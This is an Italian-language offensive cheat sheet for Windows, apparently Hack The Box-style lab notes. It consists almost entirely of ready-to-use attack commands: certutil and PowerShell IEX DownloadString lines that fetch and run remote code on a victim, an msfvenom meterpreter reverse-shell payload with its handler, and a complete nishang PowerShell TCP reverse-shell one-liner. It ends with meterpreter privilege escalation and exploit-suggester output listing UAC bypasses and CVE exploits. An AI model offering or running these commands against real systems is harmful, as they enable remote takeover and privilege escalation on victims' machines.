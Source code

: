 # Windows

## file transfer

### HTTP
host: 
```
python -m http.server 9000
```

vittima:
```
wget http://10.10.14.14:9000/file -o .
```
o con
```
certutil -urlcache -f http://10.10.14.23/nc.exe nc.exe
```

o con:
```
IEX(New-Object Net.WebCLient).DownloadString('http://10.10.14.19:9000/rev.ps1')
```

### FTP
host:
```
python -m pyftpdlib -p 21
```

vittima:
```
ftp 10.10.14.14
```

### SMB
host:
```
impacket-smbserver ciao .
```

vittima:
```
copy \\10.10.14.14\ciao\file.exe .
```

https://blog.ropnop.com/transferring-files-from-kali-to-windows/


## reverse shell 

### meterpreter
host: creare reverse shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.103 LPORT=4444 -f exe -o /home/kali/Desktop/rs_exploitl.exe
```

vittima: eseguire la shell 
host:
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.14
set LPORT 4444
exploit
```

 https://johndcyber.com/how-to-create-a-reverse-tcp-shell-windows-executable-using-metasploit-56d049007047

### nishang 

```
powershell -command "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.23',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
https://github.com/samratashok/nishang

## Privilege escalation

### meterpreter
Ottenere una sessione meterpreter con il metodo sopra.

#### Metodo 1

```
use priv
getsystem
```

#### Metodo 2
```
meterpreter > background 
[*] Backgrounding session 4...
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) >
```


```
msf6 post(multi/recon/local_exploit_suggester) > set session 4
session => 4
```

```
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.11.106 - Collecting local exploits for x64/windows...
[*] 10.10.11.106 - 28 exploit checks are being tried...
[+] 10.10.11.106 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/cve_2020_1048_printerdemon: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/cve_2020_1337_printerdemon: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/ricoh_driver_privesc: The target appears to be vulnerable. Ricoh driver directory has full permissions
[+] 10.10.11.106 - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
[*] Post module execution completed
```
